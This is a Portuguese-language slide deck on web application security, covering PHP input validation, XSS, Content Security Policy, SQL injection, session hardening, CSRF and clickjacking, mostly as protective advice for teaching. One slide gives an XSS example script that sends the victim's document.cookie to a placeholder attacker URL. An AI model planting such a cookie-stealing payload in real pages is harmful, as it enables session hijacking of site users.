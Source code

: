 #HSLIDE
# Segurança no desenvolvimento web
#HSLIDE
## Pilares da Segurança da Informação  
- Confidencialidade
- Integridade
- Disponibilidade
## Princípios  
- Segurança em múltiplas camadas
- Considere que cada camada eventualmente falhará
- Forneça o mínimo de informação necessária
#HSLIDE
## Validação de entradas
Considerando que a requisição HTTP pode ser manipulada pelo cliente, toda entrada do usuário deve ser validada.
#HSLIDE
### Proteção
- Para isso, o PHP oferece as extensões ***ctype*** e ***filter***. 
Além disso, a maioria dos frameworks de mercado implementam algum tipo de tratamento/sanitização de dados.
- PHP 7+ oferece ***type declarations*** que permitem especificar o tipo esperado de parâmetros.
Para isso:
`declare(strict_types=1);`
#HSLIDE
## Cross-site scripting (XSS)
Ocorre quando um script inserido por um usuário é armazenado e/ou executado pela aplicação. 
#HSLIDE
### Exemplo
```javascript
<script>
(new Image()).src = “http://urldoatacante/?” + escape(document.cookie);
</script>
```
#HSLIDE
### Tipos
* Armazenado
* Não-persistente
* Baseado em DOM
#HSLIDE
### Consequências
- Roubo de *cookie*/sessão
- Manipulação de DOM
- *Keylogger*
- *Browser exploits*
- Basicamente tudo que o JavaScript permite
#HSLIDE
### Proteção
- [*Same-origin Policy*](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy) faz com que apenas códigos do mesmo *origin* (protocolo/domínio/porta) tenham acesso à aplicação, ao mesmo tempo que permite acesso a arquivos externos (uma lib como o [JQuery](https://jquery.com/), por exemplo)
- Filtrar entradas ([*strip_tags*](http://php.net/manual/en/function.strip-tags.php), [*filter_var*](http://php.net/manual/en/function.filter-var.php), [*preg_replace*](http://php.net/manual/en/function.preg-replace.php))
- Escapar as saídas ([*htmlspecialchars*](http://php.net/manual/en/function.htmlspecialchars.php), [*htmlentities*](http://php.net/manual/en/function.htmlentities.php), [*filter_var*](http://php.net/manual/en/function.filter-var.php))
- Aplicar [*Content Security Policy*](https://content-security-policy.com/) (*default-src*, *img-src*, *script-src*), para isso, o ideal é eliminar código inline
#HSLIDE
### Testando a CSP
```
Content-Security-Policy-Report-Only
report-uri /caminho/arquivo.php
```
#HSLIDE
## SQL Injection

### Proteção
- Não concatenar dados (parâmetros) com comandos
- Utilizar prepared statements
- Validar entradas
- Escapar caracteres
#HSLIDE
## Gerenciamento de estado

### Proteção
- Usar HTTPS
- Definir *secure* e *HttpOnly* *flags*
- Prevenir XSS
- [Alterar](http://php.net/manual/en/function.session-regenerate-id.php) ID de sessão
- Armazenar informação do usuário na sessão (*headers*)
- Detectar sequestro de sessão
- Usar [HSTS](https://www.owasp.org/index.php/HTTP_Strict_Transport_Security_Cheat_Sheet) para dificultar o roubo de sessão
#HSLIDE
### Diretivas
```php
session.use_strict_mode = true;
session.cookie_secure = true;
session.use_only_cookies = true;
session.cookie_httponly = true;

Strict-Transport-Security: max-age=86400; includeSubDomains
```
#HSLIDE
## Cross-site Request Forgery (CSRF)
Causado por vírus, scam/phishing, site/redirecionamento malicioso

### Proteção
- Não usar GET para operações que envolvam manipulação de dados (porém, o POST também pode ser manipulado)
- Enviar token 
#HSLIDE
### Clickjacking
Atacante cria página e, através de requisições para o site alvo (usualmente via iframe), aproveita-se da sessão do usuário

#### Proteção
`header(‘X-FRAME-OPTIONS’, ‘DENY’); //ou SAMEORIGIN`
#HSLIDE
## Ferramentas
[Arachni web scanner](http://www.arachni-scanner.com/)
[Dependencies security checker](https://github.com/sensiolabs/security-checker)
#HSLIDE
## Referências
[OWASP](https://www.owasp.org)
